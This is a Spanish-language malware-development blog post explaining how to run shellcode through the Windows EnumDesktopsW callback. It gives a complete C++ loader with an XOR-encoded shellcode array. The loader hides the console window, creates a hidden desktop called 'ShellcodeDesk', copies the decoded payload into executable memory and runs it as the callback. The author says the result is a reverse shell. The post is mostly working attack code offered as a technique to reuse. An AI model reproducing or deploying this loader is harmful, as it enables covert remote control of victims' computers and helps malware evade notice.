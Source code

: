 ```yaml
---
layout: post
title: Inyeccion de shellcodes via EnumDesktopsW()
author: c4rta
date: 2023-07-07
tags: [MalDev]
---
```

Te explicare como use la funcion ```EnumDesktopsW()``` para ejecutar una shellcode en un escritorio creado con ```CreateDesktopW()``` 
{:.lead}
## EnumDesktopsW

EnumDesktopsW es una funcion de la WinAPI la cual enumera todos los escritorios del usuario, cabe recalcar que solo enumera los cuales tengan acceso ```DESKTOP_ENUMERATE``` o ```GENERIC_ALL```, lo que hace por detras esta funcion es invocar multiples veces a la funcion callback del parámetro ```lpEnumFunc``` hasta que termine de enumerar todos los escritorios.

```lpEnumFunc``` es uno de los parametros que recibe ```EnumDesktopsW()```, este parametro es un puntero a la callback  ```DESKTOPENUMPROC```, su sintaxis es:

```c++
BOOL CALLBACK EnumDesktopProc(
  _In_ LPTSTR lpszDesktop,
  _In_ LPARAM lParam
);
```

### ¿Como se ejecuta la shellcode?

Basicamente hace esto:

- Se asigna un buffer de memoria mediante una función como VirtualAlloc
- Se copia la shellcode en la memoria recién asignada
- Se usa EnumDesktopsW para enumerar los escritorios y mediante una funcion callback encontrar la dirección de una función que se puede usar para ejecutar la shellcode (La direccion que regresa VirtualAlloc)

El codigo "base" para ejecutar una shellcode de esta forma tomando en cuenta la explicacion anterior, es:

```c++
HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hAlloc, shellcode, sizeof(shellcode));
EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
```

Pero nos vamos a poner experimentadores y te voy a explicar como usando ese mismo codigo de base lo converti en algo bien genial

### Explicacion

Como en los demas tutoriales, te pondre todo el codigo y te explicare que hacen las funciones y como se ejecuta la shellcode

```c++
#include <Windows.h>
#include <iostream>

unsigned char shellcode[] = {
	"\x92\x26\xed\x8a\x9e\x86\xa2\x6e\x6e\x6e\x2f\x3f\x2f\x3e"
	"\x3c\x3f\x26\x5f\xbc\x0b\x26\xe5\x3c\x0e\x26\xe5\x3c\x76"
	"\x38\x26\xe5\x3c\x4e\x23\x5f\xa7\x26\xe5\x1c\x3e\x26\x61"
	"\xd9\x24\x24\x26\x5f\xae\xc2\x52\x0f\x12\x6c\x42\x4e\x2f"
	"\xaf\xa7\x63\x2f\x6f\xaf\x8c\x83\x3c\x26\xe5\x3c\x4e\xe5"
	"\x2c\x52\x2f\x3f\x26\x6f\xbe\x08\xef\x16\x76\x65\x6c\x61"
	"\xeb\x1c\x6e\x6e\x6e\xe5\xee\xe6\x6e\x6e\x6e\x26\xeb\xae"
	"\x1a\x09\x26\x6f\xbe\xe5\x26\x76\x3e\x2a\xe5\x2e\x4e\x27"
	"\x6f\xbe\x8d\x38\x23\x5f\xa7\x26\x91\xa7\x2f\xe5\x5a\xe6"
	"\x26\x6f\xb8\x26\x5f\xae\xc2\x2f\xaf\xa7\x63\x2f\x6f\xaf"
	"\x56\x8e\x1b\x9f\x22\x6d\x22\x4a\x66\x2b\x57\xbf\x1b\xb6"
	"\x36\x2a\xe5\x2e\x4a\x27\x6f\xbe\x08\x2f\xe5\x62\x26\x2a"
	"\xe5\x2e\x72\x27\x6f\xbe\x2f\xe5\x6a\xe6\x26\x6f\xbe\x2f"
	"\x36\x2f\x36\x30\x37\x34\x2f\x36\x2f\x37\x2f\x34\x26\xed"
	"\x82\x4e\x2f\x3c\x91\x8e\x36\x2f\x37\x34\x26\xe5\x7c\x87"
	"\x25\x91\x91\x91\x33\x27\xd0\x19\x1d\x5c\x31\x5d\x5c\x6e"
	"\x6e\x2f\x38\x27\xe7\x88\x26\xef\x82\xce\x6f\x6e\x6e\x27"
	"\xe7\x8b\x27\xd2\x6c\x6e\x7f\x32\xae\xc6\x6f\x27\x2f\x3a"
	"\x27\xe7\x8a\x22\xe7\x9f\x2f\xd4\x22\x19\x48\x69\x91\xbb"
	"\x22\xe7\x84\x06\x6f\x6f\x6e\x6e\x37\x2f\xd4\x47\xee\x05"
	"\x6e\x91\xbb\x04\x64\x2f\x30\x3e\x3e\x23\x5f\xa7\x23\x5f"
	"\xae\x26\x91\xae\x26\xe7\xac\x26\x91\xae\x26\xe7\xaf\x2f"
	"\xd4\x84\x61\xb1\x8e\x91\xbb\x26\xe7\xa9\x04\x7e\x2f\x36"
	"\x22\xe7\x8c\x26\xe7\x97\x2f\xd4\xf7\xcb\x1a\x0f\x91\xbb"
	"\xeb\xae\x1a\x64\x27\x91\xa0\x1b\x8b\x86\xfd\x6e\x6e\x6e"
	"\x26\xed\x82\x7e\x26\xe7\x8c\x23\x5f\xa7\x04\x6a\x2f\x36"
	"\x26\xe7\x97\x2f\xd4\x6c\xb7\xa6\x31\x91\xbb\xed\x96\x6e"
	"\x10\x3b\x26\xed\xaa\x4e\x30\xe7\x98\x04\x2e\x2f\x37\x06"
	"\x6e\x7e\x6e\x6e\x2f\x36\x26\xe7\x9c\x26\x5f\xa7\x2f\xd4"
	"\x36\xca\x3d\x8b\x91\xbb\x26\xe7\xad\x27\xe7\xa9\x23\x5f"
	"\xa7\x27\xe7\x9e\x26\xe7\xb4\x26\xe7\x97\x2f\xd4\x6c\xb7"
	"\xa6\x31\x91\xbb\xed\x96\x6e\x13\x46\x36\x2f\x39\x37\x06"
	"\x6e\x2e\x6e\x6e\x2f\x36\x04\x6e\x34\x2f\xd4\x65\x41\x61"
	"\x5e\x91\xbb\x39\x37\x2f\xd4\x1b\x00\x23\x0f\x91\xbb\x27"
	"\x91\xa0\x87\x52\x91\x91\x91\x26\x6f\xad\x26\x47\xa8\x26"
	"\xeb\x98\x1b\xda\x2f\x91\x89\x36\x04\x6e\x37\x27\xa9\xac"
	"\x9e\xdb\xcc\x38\x91\xbb"
};

typedef BOOL(WINAPI* ShellcodeFunction)(LPCWSTR, LPARAM);

DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}

int main(){
	HWND hWin = GetConsoleWindow();
	ShowWindow(hWin, SW_HIDE);
	
    HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
    if (hDesktop != NULL){
        HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
        if (hThread == NULL){
            CloseDesktop(hDesktop);
            return 1;
        }else{
        	CloseHandle(hThread);
	
	        for (int i = 0; i < sizeof(shellcode); i++){
	            shellcode[i] = (byte)(shellcode[i] ^ (byte)'\x6e');
	        }
	
	        const size_t shellcodeSize = sizeof(shellcode);
	
	        LPVOID hAlloc = VirtualAlloc(
	            NULL,
	            shellcodeSize,
	            MEM_COMMIT | MEM_RESERVE,
	            PAGE_EXECUTE_READWRITE
	        );
	
	        memcpy(hAlloc, shellcode, shellcodeSize);
	        EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW)hAlloc, NULL);
	        CloseDesktop(hDesktop);
		}

    }
    return 0;
}
```

### Explicacion rapida

Se crea un hilo para ejecutar ```SwitchDesktopThread()```, asi que cuando se ejecute esa funcion cambiara al escritorio mediante ```SetThreadDesktop()```, ese escritorio se llama "ShellcodeDesk" creado con ```CreateDesktop()```, permitiendo que esa accion ocurra en segundo plano en ese hilo que se creo, despues se reserva memoria con ```VirtualAlloc()``` para la shellcode y se inyectara en el contexto del escritorio "ShellcodeDesk" mediante la funcion de callback ```EnumDesktopW()```, permitiento asi que el escritorio actual del usuario no este ocurriendo nada, y todo el proceso de la shellcode se este ejecutando en el escritorio "ShellcodeDesk"


### Explicacion de cada funcion

#### CreateDesktopW()

```c++
HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
```

Creara un nuevo escritorio llamado "ShellcodeDesk" donde se le da acceso "GENERIC_ALL" para tener control total de ese ecritorio, y ojo,
para windows los escritorios solo son objetos que representan un area virtual la cual ejecuta aplicaciones y tiene ventanas, cada escritorio
esta aislado de otro escritorio, es decir, que cada escritorio tiene sus ventanas, aplicaciones.

Como curiosidad, la creacion de escritorios esta limitada por el tamaño del heap del escritorio del sistema, el cual es de 48 MB

Y si ese escritorio se crea, osea es diferente de NULL, regresa un identificador que se guarda en ```hDesktop```, y pasara a la funcion CreateThread()

#### CreateThread()

```c++
HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
```

Ahora, cuando se hace un llamado a esta funcion lo que esta pasando es que crea un hilo en el proceso actual, y date cuenta que este hilo su tercer parametro es un puntero del nombre de la funcion que se va a ejecutar en ese hilo, osea ```SwitchDesktopThread```, tambien se le pasa ```hDesktop``` que es la variable que tiene el escritorio creado con ```CreateDesktopW()```

#### SwitchDesktopThread()

```c++
DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}
```

Ahora con ```SwitchDesktopThread``` lo que esta haciendo es cambiar al escritorio creado con ```CreateDesktopW()``` mediante ```SetThreadDesktop()```, sin embargo este cambio lo hace asignando el escritorio creado al hilo al que pertenece o del cual se esta ejecutando, osea, el escritorio "ShellcodeDesk" que se creo con ```CreateDesktopW()``` se estaria ejecutando en el hilo creado con ```CreateThread```, por eso mismo, en uno de los parametros de ```CreateThread``` se le pasa ```hDesktop```, que es la variable que tiene el nombre de escritorio "ShellcodeDesk".

#### Ejecucion de la shellcode

Y en caso de que todo vaya bien todas las intrucciones que le siguen se estarian ejecutando en ese escritorio ("ShellcodeDesk") lo cual permite que esten aisladas del escritorio actual del usuario, y ya al final con ```EnumDesktopsW()``` se ejecuta las shellcode en el contexto del escritorio creado, osea ShellcodeDesk

#### Resultados

Llega una reverse shell por que eso es lo que hace la shellcode

![](/assets/img/enumDesktopW/1.png)

![](/assets/img/enumDesktopW/2.png)

